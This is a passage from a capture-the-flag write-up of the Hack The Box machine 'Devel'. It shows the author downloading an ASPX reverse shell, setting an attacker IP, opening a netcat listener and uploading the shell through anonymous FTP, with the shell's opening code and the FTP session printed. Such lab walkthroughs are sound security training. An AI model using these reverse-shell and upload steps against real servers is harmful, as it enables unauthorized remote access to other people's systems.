 With the script uploaded I can now execute any command I want as the `iis appool` user.
![Devel](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/devel/image2.png)

Taking this a step further we can use [this](https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx) script to give us a reverse shell. I used `wget` to download the script `wget https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx` and then edited it to reflect IP. This particular script is written in C#.

```C#
┌──(root㉿kali)-[~/htb/devel]
└─# cat shell.aspx                            
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Runtime.InteropServices" %>
<%@ Import Namespace="System.Net" %>
<%@ Import Namespace="System.Net.Sockets" %>
<%@ Import Namespace="System.Security.Principal" %>
<%@ Import Namespace="System.Data.SqlClient" %>
<script runat="server">
//Original shell post: https://www.darknet.org.uk/2014/12/insomniashell-asp-net-reverse-shell-bind-shell/
//Download link: https://www.darknet.org.uk/content/files/InsomniaShell.zip
    
        protected void Page_Load(object sender, EventArgs e)
    {
            String host = "10.10.x.x"; //CHANGE THIS
            int port = 1234; ////CHANGE THIS
                
        CallbackShell(host, port);

```

Next I will set up a `netcat` listener to catch the shell once the `aspx` script executes.

`nc -lvnp 1234`

Then I uploaded the script 
```
┌──(root㉿kali)-[~/htb/devel]
└─# ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> put shell.aspx
local: shell.aspx remote: shell.aspx
229 Entering Extended Passive Mode (|||49159|)
125 Data connection already open; Transfer starting.
100% |************************************************************************| 16392       32.43 MiB/s    --:-- ETA
226 Transfer complete.
16392 bytes sent in 00:00 (118.21 KiB/s)
```